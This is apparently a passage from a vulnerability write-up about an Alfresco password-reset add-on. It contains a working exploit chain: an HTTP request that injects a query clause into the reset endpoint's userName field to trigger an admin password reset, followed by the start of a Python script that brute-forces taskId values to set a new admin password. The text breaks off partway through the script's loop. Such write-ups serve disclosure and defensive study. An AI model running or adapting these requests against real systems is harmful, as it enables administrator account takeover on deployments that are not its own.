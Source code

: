 > Admin Password Reset

```http
POST /share/proxy/alfresco-noauth/com/flex-solution/reset-password HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://target.com/share/page/
X-Requested-With: application/json
Content-Type: application/json
Content-Length: 61
Connection: close
Cookie: JSESSIONID=C8207D808B749934EA6DACC4A1BF23A1; _alfTest=_alfTest

{
    "userName":"404-NotFound@amriunix.com' OR cm:userName like '%admin%"
}
```

Because the email `404-NotFound@amriunix.com` does not exist in the database and we inject `' OR cm:userName like '%admin%` in the **e-mail** input, this will makes the Reset Password add-on send and trigger a password reset event for the `admin` account.

### Step 3
So far, we have successfully:

- **Retrieve** the last `taskId` value.
- **Trigger** a Password Reset event for the `Admin` account.

Now we will run a python script to bruteforce the correct `taskId` value assigned to the `Admin` account.

```python
#!/usr/bin/python3

import requests
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

host = "https://target.com"
victimUser = "admin"
newPassword = "Le1m3in!"
retreivedTaskId = 70130 # Retrieved taskId


header = {
    'Host': 'target.com',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/json',
    'Connection': 'close',
}


for i in range(1000):
    payload = {
        "new-password":newPassword,
        "new-password-confirm":newPassword,
        "taskId":"activiti${}".format(retreivedTaskId + i),
        "userToken":victimUser,
        "save":"undefined"
    }
```